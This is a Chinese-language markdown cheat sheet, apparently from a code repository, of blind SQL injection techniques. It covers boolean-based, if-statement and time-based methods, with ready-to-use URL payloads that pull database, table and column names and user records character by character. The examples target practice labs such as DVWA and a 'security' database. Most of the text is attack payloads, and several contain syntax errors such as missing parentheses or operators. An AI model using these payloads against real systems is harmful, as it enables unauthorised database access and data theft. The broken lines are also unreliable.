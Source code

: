 # SQL 注入-盲注手法

---------------------
+ 基于布尔的盲注

```mysql
Length（）  #函数 返回字符串的长度
Substr（）  #截取字符串
Ascii（）   #返回字符的ascii码
ord（）     #类似于ascii码
mid（）     #和substr用法相同
```

-----------------------

+ **以下操作请使用二分法**
   + **报数据库名**
    ```mysql
    http://url/?id=1'and (length(database()))>10--%20  #测试数据库名的长度
    http://url/?id=1%27 and ord(substr(database(),1,1))=118--%20  #爆出数据库名的第一位
    http://url/?id=1%27 and ord(substr(database(),2,1))=118--%20  #爆出数据库名的第二位
    ```
**后面依次类推...**
---------------------

+ **猜解指定数据库下的表名长度**
```mysql
?id=1' and length((select table_name from information_schema.tables where table_schema='dvwa'  limit 0,1))>5--%20   #猜解当前数据库中第一张表名的长度
?id=1' and length((select table_name from information_schema.tables where table_schema='dvwa'  limit 1,1))=5--  #猜解当前数据库中第二张表名的长度
```

- **爆表名**
```mysql
?id=1' and ord(mid((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))=103--   #猜解dvwa数据库下第一张表的第一个字符的ascii码
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))=103--   #同上
?id=1' and ord(mid((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),2,1))=103--   #猜解dvwa数据库下第一张表的第二个字符的ascii码
```

**接下来依次类推....**
- **爆字段长度**
```mysql
/?id=1' and length((select column_name from information_schema.columns where table_schema='security'  and table_name='users' limit 0,1))>7--  #猜解指定数据库中的指定表中的第一个字段名长度
/?id=1' and length((select column_name from information_schema.columns where table_schema='security'  and table_name='users' limit 1,1))>7--  #猜解指定数据库中的指定表中的第二个字段名长度
```

- **爆字段**
接下来自由发挥吧....
猜解字段内容长度

```mysql
/?id=1' and length(select username from security.users limit 0,1)>3
/?id=1' and length(select username from security.users limit 0,1)>4
```
上述语句为猜解指定数据库与表名中的第一条字段名的长度

- **爆字段内容**

```mysql
/?id=1' and ascii(substr(select username from security.users limit 0,1),1,1)-- - #爆破username字段第1个字符的ascii码
/?id=1' and ascii(substr(select username from security.users limit 0,1),2,1)-- - #爆破username字段第2个字符的ascii码
```

------------------------

# 基于if语句的显注

+ 案例：
>
当id=1 页面呈现"nihao"字符
当id=1 页面呈现"mucn"字符

if语句详解
>if(条件, 值1, 值2)
当条件为真时返回值1，条件为假时返回值2

直接使用if语句构造注入
```mysql
?id=if(1=1,1,2)--+       #如果1=1,那么回显1，也就是回显nihao
?id=if(1=2,1,2)--+       #原理同上
```

-------------------------

# 基于时间的盲注

+ 主要还是基于上面的if语句去判断

```mysql
例子
id=1' if(1=1,sleep(2),2)-- -   #如果1=1那么就执行sleep(2) 然后根据页面的回显时间进行判断前面语句是否正确
```

以后遇见更多的就再添加
